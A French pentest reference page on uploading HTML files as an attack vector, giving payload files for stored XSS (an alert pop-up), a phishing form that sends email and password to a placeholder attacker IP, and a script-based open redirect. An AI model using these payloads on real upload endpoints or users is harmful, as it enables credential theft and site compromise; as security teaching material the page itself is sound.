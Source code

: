 # HTML

<img src="logo_html5.png" title="" alt="" height="150">

**Facteur de risque** : XSS, HTML Injection, Open Redirection

**Extension** : `.html`, `.htm`

**Type MIME** : `text/html`

**Description** : 

Le **H**yper**T**ext **M**arkup **L**anguage (**HTML** ou **HTML5**) est un langage de balisage conçu pour représenter les pages web.

## Sommaire

- Cross-site scripting (XSS)

## Cross-site scripting (XSS)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Le code HTML suivant fait apparaître un pop up :

**xss.html**, **xss.htm**

```html
<!DOCTYPE html>
<html>
<body>

<h1>Stored XSS</h1>

<script>alert(1)</script>

</body>
</html>
```

## HTML Injection

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Dans certaines contextes, le payload XSS peut être refusé. Mais l'injection de code HTML est toujours possible.
Pourvoir exécuter de l'HTML permet à un attaqueur d'effectuer du **phishing**, contourner le CSP (**CSP bypass**) etc.

Un exemple pour le phishing :

**html\_phishing.html**, **html\_phishing.htm**

```html
<!DOCTYPE html>
<html>
<body>
    <style>
        h1 {color: green}
    </style>
    <h1>HTML Injection : Phishing</h1>
    <b>Entrez vos identifiants :</b>
    <form action="http://xxx.xxx.xxx.xxx:1234" method="GET">
         <input type="text" name="email" placeholder="Email"/>
        <input type="password" name="password" placeholder="Mot de passe"/>
        <input type="submit" value="Submit"/>
    </form>
</body>
</html>
```

## Open Redirection

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Le code suivant permet une redirection sur google.com :

**openredirect.html**, **openredirect.htm**

```html
<!DOCTYPE html>
<html>
<body>
<script>
    window.location = "https://www.google.com/";
</script>
</body>
</html>
```

## References

[PayloadsAllTheThings/xss.htm at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/Files/xss.htm)

[PayloadsAllTheThings/xss.html at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20HTML/xss.html)

[What Are HTML Injections | Acunetix](https://www.acunetix.com/blog/web-security-zone/html-injections/)

## Todo

Crée des fichiers JavaScript ?
